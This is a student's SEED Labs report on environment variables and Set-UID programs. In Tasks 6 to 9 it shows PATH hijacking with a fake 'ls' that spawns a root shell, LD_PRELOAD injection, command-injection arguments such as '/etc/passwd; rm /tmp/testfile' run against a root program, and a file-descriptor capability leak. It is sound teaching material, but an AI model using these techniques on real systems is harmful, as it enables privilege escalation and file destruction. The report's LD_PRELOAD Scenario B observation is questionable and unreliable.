








# SEED Labs - Environment Variable and Set-UID Program Lab Report

**Student Name:** Jack Lin  
**Date:**   11/3/2025
**Course:** 25FA CPS493-02 Cybersecurity 748
---

## Table of Contents
1. [Task 1: Manipulating Environment Variables](#task-1-manipulating-environment-variables)
2. [Task 2: Passing Environment Variables from Parent to Child](#task-2-passing-environment-variables-from-parent-to-child)
3. [Task 3: Environment Variables and execve()](#task-3-environment-variables-and-execve)
4. [Task 4: Environment Variables and system()](#task-4-environment-variables-and-system)
5. [Task 5: Environment Variables and Set-UID Programs](#task-5-environment-variables-and-set-uid-programs)
6. [Task 6: The PATH Environment Variable and Set-UID Programs](#task-6-the-path-environment-variable-and-set-uid-programs)
7. [Task 7: The LD_PRELOAD Environment Variable](#task-7-the-ld_preload-environment-variable)
8. [Task 8: system() versus execve()](#task-8-system-versus-execve)
9. [Task 9: Capability Leaking](#task-9-capability-leaking)
10. [Conclusion](#conclusion)

---

## Task 1: Manipulating Environment Variables

### Objective
Study commands to set and unset environment variables in Bash.

### Commands Used
```bash
printenv
env
printenv PWD
env | grep PWD
export TEST_VAR=value
unset TEST_VAR
```

### Observations

**Screenshot 1.1:** Output of `printenv` command



**Screenshot 1.2:** Setting environment variable with `export`


**Screenshot 1.3:** Unsetting environment variable with `unset`



### Analysis
- env/printenv lists active environment variables for the current shell
- export NAME=value sets a variable and marks it to be included in the environment of child process, without export a shell variable is local to that shell only
- unset NAME removes the variable from the current shell
- export and unset are shell builtin as part of bash so the are not separate programs
- Child process or any process created by fork inherit the parent's exported environment at the time of the fork. Non-exported shell variables are not inherited


---

## Task 2: Passing Environment Variables from Parent to Child

### Objective
Determine whether parent process environment variables are inherited by child processes.

### Step 1: Child Process Prints Environment

**Compilation:**
```bash
gcc myprintenv.c -o myprintenv
./myprintenv > child_output.txt
```

**Screenshot 2.1:** Child process output


### Step 2: Parent Process Prints Environment

**Compilation:**
```bash
# Modified code with parent printing
./myprintenv > parent_output.txt
```

**Screenshot 2.2:** Parent process output


### Step 3: Comparing Outputs

**Command:**
```bash
diff child_output.txt parent_output.txt
```

**Screenshot 2.3:** Diff command output



### Analysis
The diff command here showed nothing which means that the files are identical, meaning that the child processes inherit parent environment variables

---

## Task 3: Environment Variables and execve()

### Objective
Study how environment variables are affected when executing a new program via execve().

### Step 1: execve() with NULL Environment

**Compilation:**
```bash
gcc myenv.c -o myenv
./myenv
```

**Screenshot 3.1:** Output with NULL environment parameter


### Step 2: execve() with environ Parameter

**Code modification:**
```c
execve("/usr/bin/env", argv, environ);
```

**Screenshot 3.2:** Output with environ parameter



### Analysis
- When NULL was passed as the third argument to execve() the new program gets no environment variable
- When environ was passed, the new program inherits all environment variables
- Unlike fork(), execve() does not automatically inherit environment variables, so you must explicitly pass them

---

## Task 4: Environment Variables and system()

### Objective
Study how environment variables are affected when using the system() function.

### Implementation

**Compilation:**
```bash
gcc mysystem.c -o mysystem
./mysystem
```

**Screenshot 4.1:** Output of system() function


### Analysis
- The system() function automatically passes environment variables to the executed program
- The command system() calls /bin/sh which then executes the command
- Unlike execve() which requires explicit passing of environment, system() does it automatically
- This makes system() convenient but potentially dangerous in Set-UID programs

---

## Task 5: Environment Variables and Set-UID Programs

### Objective
Determine which environment variables are inherited by Set-UID programs.

### Setup

**Compilation and Set-UID setup:**
```bash
gcc printenv_setuid.c -o printenv_setuid
sudo chown root printenv_setuid
sudo chmod 4755 printenv_setuid
```

### Setting Environment Variables

```bash
export PATH=/test:$PATH
export LD_LIBRARY_PATH=/test
export MY_CUSTOM_VAR=test123
```

**Screenshot 5.1:** Setting environment variables


### Running Set-UID Program

```bash
./printenv_setuid
```

**Screenshot 5.2:** Output showing inherited environment variables


### Analysis
- Most environment variables pass through to Set-UID programs
- LD_LIBRARY_PATH and other LD_* are filtered for security
- PATH passes through this which is a security risk

---

## Task 6: The PATH Environment Variable and Set-UID Programs

### Objective
Exploit a Set-UID program by manipulating the PATH environment variable.

### Creating Malicious "ls" Program

**Malicious script:**
```bash
#!/bin/bash
echo "Malicious code executed!"
/bin/bash
```

**Screenshot 6.1:** Creating malicious ls


### Linking /bin/sh to zsh

```bash
sudo ln -sf /bin/zsh /bin/sh
```

**Screenshot 6.2:** Changing shell link



### Exploitation

```bash
export PATH=/home/seed:$PATH
./ls_setuid
```

### Analysis
- The vulnerable program uses relative path "ls" instead of absolute path "/bin/ls"
- By manipulating PATH to include current directory first, attacker's malicious "ls" executes with root privileges
- Modern Ubuntu uses /bin/dash which drops privileges when running in Set-UID context, preventing the attack
- Prevention: always use absolute paths in Set-UID programs and avoid system() function

### Cleanup

```bash
sudo ln -sf /bin/dash /bin/sh
```

---

## Task 7: The LD_PRELOAD Environment Variable

### Objective
Study how LD_PRELOAD affects Set-UID programs.

### Step 1: Building Dynamic Library

**Compilation:**
```bash
gcc -fPIC -g -c mylib.c
gcc -shared -o libmylib.so.1.0.1 mylib.o -lc
export LD_PRELOAD=./libmylib.so.1.0.1
gcc myprog.c -o myprog
```

**Screenshot 7.1:** Building the library


### Step 2: Testing Different Scenarios

#### Scenario A: Regular Program, Normal User

**Screenshot 7.2:** Regular program output



#### Scenario B: Set-UID Root Program, Normal User

```bash
sudo chown root myprog
sudo chmod 4755 myprog
./myprog
```

**Screenshot 7.3:** Set-UID root program output


#### Scenario C: Set-UID Root Program, Root Account

```bash
sudo su
export LD_PRELOAD=./libmylib.so.1.0.1
./myprog
```

**Screenshot 7.4:** Root account execution



#### Scenario D: Set-UID user1 Program, Different User

**Screenshot 7.5:** Different user execution


### Step 3: Analysis

- **Scenario A (Regular program):** LD_PRELOAD worked and loaded the custom library, printing "I am not sleeping!"
- **Scenario B (Set-UID root, normal user):** LD_PRELOAD unexpectedly worked on this system, though normally it should be filtered for security
- **Scenario C (Set-UID root, as root):** LD_PRELOAD worked because real UID matches effective UID (both root)
- **Scenario D (Set-UID user1, different user):** LD_PRELOAD was filtered when real UID differs from effective UID

The security mechanism filters LD_PRELOAD and other LD_* variables when the real UID does not match the effective UID to prevent attackers from injecting malicious libraries into privileged programs
Some systems may have different security configurations explaining why Scenario B allowed LD_PRELOAD when it typically should not

---

## Task 8: system() versus execve()

### Objective
Compare security implications of using system() vs. execve() in Set-UID programs.

### Step 1: Exploitation Using system()

**Setup:**
```bash
gcc catall.c -o catall
sudo chown root catall
sudo chmod 4755 catall
ls -l catall
```

**Screenshot 8.1:** Set-UID permissions verification


**Normal usage test:**
```bash
./catall /etc/passwd
```

**Screenshot 8.2:** Normal file reading works


**Command injection attack:**
```bash
echo "This is a test file" > /tmp/testfile
./catall "/etc/passwd; cat /tmp/testfile"
```

**Screenshot 8.3:** Command injection successful - shows both files


**File deletion attack:**
```bash
./catall "/etc/passwd; rm /tmp/testfile"
ls /tmp/testfile
```

**Screenshot 8.4:** File deleted - attack succeeded



### Step 2: Testing with execve()

**Code modification:** Edit catall.c - comment out system(), uncomment execve()

```bash
gcc catall.c -o catall
sudo chown root catall
sudo chmod 4755 catall
echo "This is a test file" > /tmp/testfile
```

**Attack attempt with execve:**
```bash
./catall "/etc/passwd; cat /tmp/testfile"
```

**Screenshot 8.5:** Command injection fails with execve()


**Normal usage still works:**
```bash
./catall /etc/passwd
```

**Screenshot 8.6:** Normal usage works with execve()


### Analysis
- **system() vulnerability:** The system() function passes the entire command string to /bin/sh for parsing, allowing shell metacharacters like semicolons to inject additional commands
- **Command injection success:** Using system(), the attack `/etc/passwd; cat /tmp/testfile` executed both commands, and `/etc/passwd; rm /tmp/testfile` successfully deleted the file with root privileges
- **execve() protection:** execve() executes the program directly without invoking a shell, treating the entire argument as a literal filename rather than parsing it for shell commands
- **Why execve() is safer:** With execve(), the argument `/etc/passwd; cat /tmp/testfile` is interpreted as a single (non-existent) filename, causing the program to fail rather than executing malicious commands
- **Prevention:** Never use system() in Set-UID programs, always use execve() with explicit arguments, validate and sanitize all user input, and use absolute paths for all external programs

---

## Task 9: Capability Leaking

### Objective
Exploit a capability leaking vulnerability in a Set-UID program.

### Setup

```bash
sudo touch /etc/zzz
sudo chmod 644 /etc/zzz
gcc cap_leak.c -o cap_leak
sudo chown root cap_leak
sudo chmod 4755 cap_leak
```

**Screenshot 9.1:** Setup


### Exploitation

```bash
./cap_leak
# Inside the spawned shell:
echo "Exploited!" >&3
```

**Screenshot 9.2:** File descriptor information


**Screenshot 9.3:** Successful write to /etc/zzz


### Analysis
- **Capability leaking vulnerability:** The program opens /etc/zzz with root privileges (fd 3) but fails to close the file descriptor before calling setuid() to drop privileges
- **File descriptor remains open:** After setuid() drops privileges to normal user, the file descriptor 3 is still open and accessible in the spawned shell
- **Exploitation:** Using `echo "Exploited!" >&3` in the unprivileged shell successfully writes to the root-owned file through the leaked file descriptor
- **Security implications:** A normal user can modify system files they shouldn't have access to, potentially compromising system integrity
- **Prevention:** Always close privileged file descriptors before dropping privileges or spawning user-controlled processes

---

## Conclusion

### Key Learnings

1. **Environment Variable Inheritance:**
   - Child processes inherit environment variables from parent processes through fork()
   - execve() requires explicit passing of environment variables via the environ parameter
   - system() automatically passes environment variables to spawned processes
   - Set-UID programs inherit most environment variables except LD_* variables which are filtered for security

2. **Set-UID Security:**
   - Set-UID programs run with the owner's privileges, creating potential security risks
   - Modern systems implement countermeasures like dash shell dropping privileges in Set-UID contexts
   - LD_PRELOAD is filtered when real UID differs from effective UID to prevent library injection attacks
   - PATH variable inheritance in Set-UID programs can be exploited if relative paths are used

3. **Common Vulnerabilities:**
   - PATH manipulation attacks exploit relative paths in Set-UID programs using system()
   - Command injection through system() allows execution of arbitrary commands via shell metacharacters
   - Capability leaking occurs when privileged resources like file descriptors aren't closed before dropping privileges
   - Environment variable manipulation can control program behavior in unintended ways

4. **Security Best Practices:**
   - Use absolute paths instead of relative paths
   - Use execve() instead of system() for privileged programs
   - Clean up capabilities before dropping privileges
   - Be aware of which environment variables affect program behavior
   - Validate and sanitize all user input
   - Close all privileged file descriptors before privilege reduction

### Real-World Implications

These vulnerabilities demonstrate critical security risks in privileged programs. In production systems, exploitation of these vulnerabilities could lead to:
- Unauthorized privilege escalation allowing attackers to gain root access
- System compromise through injection of malicious libraries or commands
- Data integrity violations by writing to protected system files
- Complete system takeover if attackers chain multiple vulnerabilities together

Real-world examples include historical Unix vulnerabilities where Set-UID programs with PATH issues allowed local privilege escalation, and capability leaking vulnerabilities in system utilities that permitted unauthorized file modifications.

### Recommendations

For secure programming practices in privileged programs:
- Never rely on environment variables for security-critical decisions
- Always use absolute paths for external program invocation
- Prefer execve() over system() to avoid shell interpretation
- Explicitly close all file descriptors before dropping privileges
- Implement the principle of least privilege by dropping privileges as early as possible
- Sanitize and validate all inputs including command-line arguments
- Use modern security mechanisms like capabilities or SELinux when available
- Regularly audit code for environment variable dependencies and Set-UID vulnerabilities

